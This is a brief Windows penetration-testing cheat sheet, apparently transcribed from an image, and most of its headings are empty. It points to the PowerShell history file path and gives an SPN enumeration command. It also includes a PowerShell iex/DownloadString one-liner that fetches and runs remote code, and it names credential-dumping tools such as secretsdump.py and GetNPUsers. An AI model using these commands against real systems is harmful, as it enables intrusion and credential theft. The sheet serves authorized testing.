 # Windows Pentest Cheat Sheet

## Victim 

### Powershell

#### General

- PS History file
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

- enumerate Accounts in SPN
setspn -T medin -Q ​ */*



#### wget / ie

- Webdownload via ie
iex​(New-Object Net.WebClient).DownloadString('url/file') 


#### PowerUp.ps1

#### winpeas



## Attacker

### windows exploit suggestor

### evil-winrm

### smbmap

### smbclient

### python impacket

#### secretsdump.py

#### GetNPUsers

#### xfreerdp

